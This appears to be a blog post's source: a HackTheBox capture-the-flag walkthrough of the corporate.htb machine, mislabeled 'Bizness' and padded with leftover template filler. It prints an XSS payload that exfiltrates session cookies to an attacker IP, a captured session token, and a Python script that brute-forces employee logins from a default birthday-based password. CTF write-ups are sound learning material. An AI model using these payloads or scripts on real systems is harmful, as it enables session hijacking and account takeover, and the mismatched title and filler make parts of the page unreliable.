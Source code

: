 ```yaml
---
layout: post
title:  Bizness
description: Bizness is a Easy-difficulty Linux machine that focuses on a CVE...
date:   2024-08-07 08:01:35 -0500
image:  '/images/bizness01.jpg'
tags:   [HackTheBox, CTF, Retired, Linux, Easy]
featured: true
---
```

<div class="heading-wrapper">
    <h3 class="heading" id="Fuzzing">Fuzzing:</h3>
    <ul class="contains-task-list">
        <li class="task-list-item is-checked">
            <input type="checkbox" class="task-list-item-checkbox" checked> ffuf -w /usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-110000.txt -u <a href="http://corporate.htb" target="_blank">http://corporate.htb</a> -H 'Host: FUZZ.corporate.htb' -fs 175
        </li>
<ul>
  <li class="checked">Item 1</li>
  <li class="checked">Item 2</li>
  <li>Item 3</li>
</ul>
    </ul>
</div>

  <h1>My Checklist</h1>
  <ul class="checklist">
    <li><i class="fa-solid fa-frog" style="color: #b8bb26;"></i> Item 1</li>
    <li><i class="fa-solid fa-frog" style="color: #b8bb26;"></i></i> Item 2</li>
    <li><i class="fa-solid fa-frog" style="color: #b8bb26;"></i> Item 3</li>
  </ul>


<div class="heading-wrapper">
    <h3 class="heading" id="Web_Exploration">Web Exploration:</h3>
    <ul class="contains-task-list">
        <li class="task-list-item is-checked">
            There is an AI chat bot we can seemingly take advantage of.
            <ul class="contains-task-list">
                <li>
                    We are able to send <code>&lt;html&gt; scripts</code> through the chat bot and it seems to be rendering the scripts.
                    <ul>
                        <li><code>XSS</code> Vulnerable.</li>
                    </ul>
                </li>
                <li>
                    We attempt <code>javascript</code> but it is blocking processing JavaScript with <code>CSP</code> <strong>Content-Security-Policy</strong>.
                </li>
            </ul>
        </li>
    </ul>
    <pre><code>|   | |---| |Content-Security-Policy<br>base-uri 'self'; <br>default-src 'self' http://corporate.htb http://*.corporate.htb; <br>style-src 'self' 'unsafe-inline' https://fonts.googleapis.com https://maps.googleapis.com https://maps.gstatic.com; <br>font-src 'self' https://fonts.googleapis.com/ https://fonts.gstatic.com data:; <br>img-src 'self' data: maps.gstatic.com; <br>frame-src https://www.google.com/maps/; <br>object-src 'none'; <br>script-src 'self'|`
    </code></pre>
</div>

<code>Testing the testers of testing
test test test
</code>

<pre>this is a pre bro ima about to pre
pre
preeeeeeeeeeeee</pre>

<i class="fa-solid fa-frog"></i>

<div class="heading-wrapper">
    <h3 class="heading" id="Exploring_available_JavaScript">Exploring available JavaScript:</h3>
    <ul class="contains-task-list">
        <li class="task-list-item is-checked">
            Here is a curl command that attempts to access that javascript and shows that its possible to access it.
            <pre><code>curl -sS '<a href="http://corporate.htb/assets/js/analytics.min.js?v=froggie" target="_blank">http://corporate.htb/assets/js/analytics.min.js?v=froggie</a>'</code></pre>
        </li>
        <li class="task-list-item is-checked">
            We can see that it's possible to exploit this javascript. We can craft a URL to send the chatbot now to grab some session cookies.
            <pre><code>&lt;meta http-equiv="refresh" content="0; url=http://corporate.htb/%3Cscript+src='/vendor/analytics.min.js'%3E%3C/script%3E%3Cscript+src='/assets/js/analytics.min.js?v=document.location=`http://10.10.14.34:34000/${document.cookie}`'%27%3C/script%3E"/&gt;</code></pre>
            Sending this script to the chat bot while having a listening server on our attack box will grab a cookie.
        </li>
    </ul>
</div>

<div class="heading-wrapper">
    <h3 class="heading" id="Cookie_Theft">Cookie Theft:</h3>
    <ul class="contains-task-list">
        <li class="task-list-item is-checked">
            Setup your server for cookie theft. <code>python -m http.server 34000</code>
            <ul>
                <li>We grab a cookie for <code>CorporateSSO</code></li>
                <li>Set the cookie in your browser. Set the path to <code>/</code> and the domain to <code>.corporate.htb</code> /Value=<code>eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJpZCI6NTA3MSwibmFtZSI6Ikp1bGlvIiwic3VybmFtZSI6IkRhbmllbCIsImVtYWlsIjoiSnVsaW8uRGFuaWVsQGNvcnBvcmF0ZS5odGIiLCJyb2xlcyI6WyJzYWxlcyJdLCJyZXF1aXJlQ3VycmVudFBhc3N3b3JkIjp0cnVlLCJpYXQiOjE3MjE3NTk4OTksImV4cCI6MTcyMTg0NjI5OX0.peLklF24DypFH8xEUc2VajwwItqc6R7kHzAAgASQ1fE</code></li>
            </ul>
        </li>
        <li class="task-list-item is-checked">
            After setting the cookie then clicking sign in on <code>people.corporate.htb</code> we have access to the panel under the user <code>Julio Daniel</code>.
            <ul>
                <li>Access to some panels but nothing really stands out too much at first.</li>
                <li>We have a <code>sharing folder</code> where people can share files.</li>
                <li>Chat where employees can chat.
                    <ul>
                        <li>Clicking on profile images sends us to the user's profiles.
                            <ul>
                                <li>Vulnerable to <code>IDOR</code>. We can navigate between users in the browser by changing the user number.</li>
                            </ul>
                        </li>
                    </ul>
                </li>
                <li>There is an <code>openvpn</code> file that I can download. Probably gives access to a VPN to get into the internal network.</li>
            </ul>
        </li>
    </ul>
</div>

<div class="heading-wrapper">
    <h3 class="heading" id="IDOR">IDOR:</h3>
    <ul class="contains-task-list">
        <li class="task-list-item is-checked">
            We are able to perform some IDOR with curl and get the files of other users onto our current user's sharing folder. I can't get this to work so I'm moving on.
        </li>
    </ul>
</div>

<div class="heading-wrapper">
    <h3 class="heading" id="Brute_Forcing_Users">Brute Forcing Users:</h3>
    <ul class="contains-task-list">
        <li class="task-list-item is-checked">
            There's an email we can look at that gives us an "On-boarding" playbook. It has a generic password format for new employees.
            <ul>
                <li>We can use this basic template and brute force all users we know to see if they forgot to change their passwords.</li>
            </ul>
        </li>
    </ul>
{% highlight python %}
#!/usr/bin/env python3
{% highlight python %}
import re
import requests

cookie = {"CorporateSSO": "YOUR_COOKIE_HERE"}

for i in range(5000, 5100):
    resp = requests.get(f"http://people.corporate.htb/employee/{i}", cookies=cookie)
    if "Sorry, we couldn't find that employee!" in resp.text:
        continue
    # this is a comment
    user_name = re.findall(r"(\w+\.\w+)@corporate.htb", resp.text)[0]
    birthday_str = re.findall(r'&lt;th scope="row"&gt;Birthday&lt;/th&gt;\s+&lt;td&gt;(\d{1,2}/\d{1,2}/\d{4})&lt;/td&gt;', resp.text)[0]
    m, d, y = birthday_str.split('/')
    password = f"CorporateStarter{d.zfill(2)}{m.zfill(2)}{y}"
    resp_login = requests.post('http://sso.corporate.htb/login', data={'username': user_name, 'password': password}, allow_redirects=False)
    if "/login?error=Invalid%20username%20or%20password" not in resp_login.text:
        print(f"{user_name}: {password}")
{% endhighlight %}
</div>

<div class="heading-wrapper">
    <h3 class="heading" id="OpenVPN">OpenVPN:</h3>
    <ul class="contains-task-list">
        <li class="task-list-item is-checked">
            Downloaded an <code>openvpn</code> file from <code>elwin.jones</code> and connected:
            <pre><code>sudo openvpn elwin-jones.ovpn</code></pre>
            <ul>
                <li>We can see the <code>tun1</code> interface being created on our attacking box.</li>
            </ul>
        </li>
    </ul>
</div>

</body>
</html>
